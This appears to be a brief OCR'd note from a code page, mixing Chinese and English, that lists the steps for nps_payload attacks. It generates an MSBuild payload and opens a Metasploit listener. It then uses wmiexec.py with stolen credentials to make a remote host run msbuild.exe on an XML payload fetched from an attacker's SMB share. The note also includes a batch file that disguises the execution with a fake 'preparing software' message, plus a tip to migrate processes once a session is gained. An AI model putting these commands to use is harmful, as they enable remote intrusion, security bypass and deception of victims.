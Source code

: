 	>python nps_payload.py正常生成
	>msfconsole -r msbuild_nps.rc开启监听
	>%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe xx.xml
	>wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
	正常执行结束进程msbuild会失去会话，以下保存bat执行
	获得session后立刻迁移进程
	@echo off
	echo [*] Please Wait, preparing software ..
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Microsoft.NET\Framework\v4.0.30319\xxx.xml
	exit
